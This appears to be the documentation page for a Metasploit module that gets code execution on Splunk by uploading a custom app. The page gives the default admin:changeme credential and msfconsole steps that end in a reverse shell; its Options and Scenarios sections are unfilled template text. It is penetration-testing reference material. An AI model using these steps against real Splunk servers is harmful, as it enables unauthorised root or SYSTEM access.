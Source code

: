 ## Vulnerable Application

This module exploits a feature of Splunk whereby a custom application can be
uploaded through the web based interface. Through the \'script\' search command a
user can call commands defined in their custom application which includes arbitrary
perl or python code. To abuse this behavior, a valid Splunk user with the admin
role is required. By default, this module uses the credential of "admin:changeme",
the default Administrator credential for Splunk. Note that the Splunk web interface
runs as SYSTEM on Windows, or as root on Linux by default. This module has been
tested successfully against Splunk 5.0, 6.1, 6.1.1 and 7.2.4.
Version 7.2.4 has been tested successfully against OSX as well

## Verification Steps

  1. Start msfconsole
  2. Do: ```use exploit/multi/http/splunk_upload_app_exec```
  3. Set required variables (you will need admin credentials)
  4. Do: ```SET TARGET 1```
  5. Do: ```SET RHOST 192.168.1.1```
  6. Do: ```SET USERNAME admin```
  7. Do: ```SET PASSWORD changeme```
  8. You should get a reverse shell on port 4444 via the predefined handler.

## External Demo
![1](http://blog.7elements.co.uk/2012/11/splunk-with-great-power-comes-great-responsibility.html)
![2](http://blog.7elements.co.uk/2012/11/abusing-splunk-with-metasploit.html)
![3](http://docs.splunk.com/Documentation/Splunk/latest/SearchReference/Script)

## Options

  **Option name**

  Talk about what it does, and how to use it appropriately.  If the default value is likely to change, include the default value here.

## Scenarios

### Version of software and OS as applicable

  Specific demo of using the module that might be useful in a real world scenario.

  ```
  code or console output
  ```

  For example:

  To do this specific thing, here's how you do it:

  ```
  msf > use module_name
  msf auxiliary(module_name) > set POWERLEVEL >9000
  msf auxiliary(module_name) > exploit
  ```
